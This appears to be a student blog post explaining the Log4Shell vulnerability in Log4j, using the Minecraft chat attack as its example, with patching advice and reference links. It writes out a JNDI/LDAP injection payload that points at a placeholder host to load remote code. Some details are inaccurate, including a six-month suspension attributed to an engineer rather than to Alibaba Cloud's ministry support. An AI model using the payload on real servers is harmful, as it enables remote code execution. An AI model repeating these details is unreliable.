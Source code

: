 

<div>

## Introduction

If you're into cybersecurity even a little bit, you probably have heard about
the recent, groundbreaking exploit: **Log4Shell**. The threat is considered
catastrophic by the cybersecurity community because of the vast number of devices that use the library.
Before we understand the exploit and why we should be worried, let's first understand 
the **Log4j** library. 

*I suggest reading the overview if you continue to the technical 
explanation.*

## Overview

**Log4j** is a tool to help developers monitor and debug software in order
to ensure everything runs smoothly. It logs a ton of information and the main
purpose is to store the information somewhere like a server. The purpose of this
library should be to *just* store information, but what if we can trick the server
 to execute code?

The vulnerability within Log4j is known as **Log4shell**. To better understand this vulnerability, let's discuss how it was discovered. Minecraft
uses Log4j for debugging and essentially logs the events as the 
application is running. If the game were to crash, Log4j would be able to see 
when and what process may have caused it. It can also keep track of the messages sent by
the players which is logged to the server (see where the vulnerability can be?).

An injection attack is a type of attack where the attacker inputs a message followed by
a command that injects a malicious program into the server.
By utilizing an injection attack which is just tricking the server to execute code from the
attacker, malicious code can be executed on the server which can grant the attacker
unauthorized access and more. The attacker can have access to sensitive information on the server
as well as even admin privileges to do as they please.


## How It Works
Now for the more in-depth discussion. **Log4j** is a popular monitoring framework written in Java and is used to log 
data. I think the non-technical explanation pretty much covers it, so I'll jump right 
into the vulnerability.

Going back to the Minecraft example, Log4j works with the Java Naming and
Directory Interface (JNDI) API which allows developers to connect their programs with
external directories. Lightweight Directory Access Protocol (LDAP) is the tool used to essentially connect
everything which is used by JNDI. 

The following command can be pasted into the chat to perform the injection:
`${jndi:ldap://ip_address/malicious_code()`. That's really it. A command sent through the
chat can allow attackers to execute any code on the host's server.

Over the past few weeks, hosts of popular Minecraft servers have been hacked through this exploit. Sensitive information
and credentials were hijacked because it was possible to use this attack on the client. Although simple, this attack
demonstrates why companies and software that use Log4j have been causing an uproar.

Be sure to check the references for the video that demonstrates
the attack. John Hammond also does a really in-depth video with the exploit on both Minecraft and a TryHackMe Lab 
which are both at the bottom as well.

## What Now?

The patch is out, but Log4j is used by a *ton* of companies around the world which is 
why this exploit is so critical. It's up to the teams in charge of the
technology to update the version in order to avoid falling victim to this attack. It 
was fortunate that such a vulnerability was discovered because an exploit like this
is surely to be maliciously used by organizations and governments.

As a matter of fact, the Chinese government actually dicisplined a group 
for not reporting Log4shell to them first. The cybersecurity engineer to report the flaw
was suspended of work for six months. As always, be sure to check the references for the full
report.


## References

* <a href="https://www.youtube.com/watch?v=aJteDOavUFk"> Minecraft Log4Shell Exploit </a>
* <a href="https://tryhackme.com/room/solar"> John Hammond's TryHackMe Lab </a>
* <a href="https://www.youtube.com/watch?v=7qoPDq41xhQ"> John Hammond's Minecraft Video </a>
* <a href="https://www.scmp.com/tech/big-tech/article/3160670/apache-Log4j-bug-chinas-industry-ministry-pulls-support-alibaba-cloud"> Apache Log4j bug: China’s industry ministry pulls support from Alibaba Cloud for not reporting flaw to government first  </a>

</div>